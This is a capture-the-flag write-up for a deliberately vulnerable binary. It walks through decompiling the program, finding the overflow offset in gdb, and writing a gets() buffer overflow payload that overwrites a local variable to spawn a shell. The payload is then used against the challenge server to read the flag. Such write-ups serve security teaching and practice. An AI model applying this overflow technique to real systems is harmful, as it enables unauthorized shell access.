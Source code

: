 # I love food !

Subject :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

We've been given [this binary](./i_love_food). Let's try it out :

```console
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

The program is asking for an input, and exiting. Let's explore the code.

## Static analysis

Using ghidra we can find those functions :

```C
undefined8 main(void)
{
  setup();
  vuln();
  return 0;
}

void vuln(void)
{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

We want to execute the command `system("/bin/sh");` in the vuln() function to get a shell. To do so we'll need to pass this condition : `if (local_c == 0xf00df00d)`.  
  
To achieve this, we'll modify the local_c variable by exploiting the gets() function which is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

## Dynamic analysis

Let's find out how many bytes we need to write over before modifying local_c using gdb.  
  
First, we'll add a breakpoint (gdb will stop everytime the program reaches this instruction) after the gets() function is called. To do so, we'll disassemble the vuln() function and look for the instruction calling gets() :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
```

According to our static analysis, the variable used to store the user input is of 44 bytes : `char local_38 [44];`. Let's fill this variable by using python to print 44 characters (we'll use "\x41" which is an `A` in ascii), and then inspect the stack to see how many bytes we need to write over before writing over local_c :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

The rsp (Register Stack Pointer) is a register that points to the top of the current stack. So by using the `x/20wx $rsp` instruction, we can inspect the current stack.  
In the stack, we can easily spot the 44 "\x41" we gave to the program, and we can see a 0xdeadbe00 value right next to it. During our static analysis, we found `local_c = 0xdeadbeef;`, which means that the local_c variable is stored right after the user input. Let's write over it by adding "\x0d\xf0\x0d\xf0" after our previous input (being on a [little endian system](https://en.wikipedia.org/wiki/Endianness) we write over memory in reverse) :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
```

Now let's inspect the stack :

```gdb
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

We can see that the local_c variable has been modified. Let's resume execution and see what happens :

```gdb
(gdb) continue
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

The program does reach the success message and open another process.  
  
Let's test our payload on the binary using the intruction `(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee)` to input our payload, and then freeze the shell before it closes :

```console
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

We've successfully opened a shell, so the final payload is : `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Now let's connect to the service and send our payload. To do so, we'll use [this script](./exploit.py) :

```console
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
